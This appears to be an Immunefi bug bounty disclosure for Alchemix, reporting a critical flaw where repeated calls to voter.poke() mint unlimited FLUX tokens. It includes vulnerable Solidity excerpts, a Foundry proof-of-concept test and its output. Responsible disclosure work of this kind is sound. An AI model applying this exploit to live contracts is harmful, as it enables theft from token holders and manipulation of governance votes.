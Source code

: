 
# Infinite minting of FLUX through `voter.poke()`

Submitted on May 3rd 2024 at 01:32:01 UTC by @Django for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #30650

Report type: Smart Contract

Report severity: Critical

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Voter.sol

Impacts:
- Manipulation of governance voting result deviating from voted outcome and resulting in a direct change from intended effect of original results
- Direct theft of any user funds, whether at-rest or in-motion, other than unclaimed yield

## Description
## Brief/Intro
A user can mint infinite FLUX token by simply calling `voter.poke()` as many times as they want. Each time `poke()` is called, it subsequently calls `_vote()` which calls `FLUX.accrueFlux()`, allowing a user to mint at will.

## Vulnerability Details
A user accrues FLUX through voting and resetting their token after each voting epoch. Quite simply, a user can use the `voter.poke()` function as many times as possible to accrue infinite unclaimed FLUX, and then claim the FLUX in the `FluxToken.sol` contract.

```
    function poke(uint256 _tokenId) public {
        /...


        _vote(_tokenId, _poolVote, _weights, _boost);
    }
```

```
    function _vote(uint256 _tokenId, address[] memory _poolVote, uint256[] memory _weights, uint256 _boost) internal {
        _reset(_tokenId);


        ...


        IFluxToken(FLUX).accrueFlux(_tokenId);
}
```

```
    function accrueFlux(uint256 _tokenId) external {
        require(msg.sender == voter, "not voter");
        uint256 amount = IVotingEscrow(veALCX).claimableFlux(_tokenId);
        unclaimedFlux[_tokenId] += amount;
    }
```

## Impact Details
- Infinite minting of FLUX will steal value from token holders
- Infinite FLUX allows for infinite boosting of voting power and governance manipulation

## Output from POC
The POC simply calls poke 10 times without changing the block number or timestamp.

```
[PASS] testAccrueFluxByPoke() (gas: 1657988)
Logs:
  FLUX Balance 2908413273694656603
  FLUX Balance 3865098966228530943
  FLUX Balance 4821784658762405283
  FLUX Balance 5778470351296279623
  FLUX Balance 6735156043830153963
  FLUX Balance 7691841736364028303
  FLUX Balance 8648527428897902643
  FLUX Balance 9605213121431776983
  FLUX Balance 10561898813965651323
  FLUX Balance 11518584506499525663
```



## Proof of Concept

```
    function testAccrueFluxByPoke() public {
        uint256 tokenId = createVeAlcx(admin, TOKEN_1, MAXTIME, false);

        hevm.startPrank(admin);

        uint256 claimedBalance = flux.balanceOf(admin);
        uint256 unclaimedBalance = flux.getUnclaimedFlux(tokenId);

        assertEq(claimedBalance, 0);
        assertEq(unclaimedBalance, 0);

        voter.reset(tokenId);

        unclaimedBalance = flux.getUnclaimedFlux(tokenId);
        uint256 fluxEachEpoch = veALCX.claimableFlux(tokenId);

        // Claimed balance is equal to the amount able to be claimed
        assertEq(unclaimedBalance, veALCX.claimableFlux(tokenId));

        hevm.warp(block.timestamp + nextEpoch);

        voter.reset(tokenId);

        // Add this voting periods claimable flux to the unclaimed balance
        unclaimedBalance += veALCX.claimableFlux(tokenId);

        // The unclaimed balance should equal the total amount of unclaimed flux
        assertEq(unclaimedBalance, flux.getUnclaimedFlux(tokenId));

        // maliciously poke 10 times
        for (uint256 i = 0; i < 10; i++) {
            voter.poke(tokenId);
            flux.claimFlux(tokenId, flux.getUnclaimedFlux(tokenId));
            console.log("FLUX Balance %s", flux.balanceOf(admin));
        }

        hevm.stopPrank();
    }
```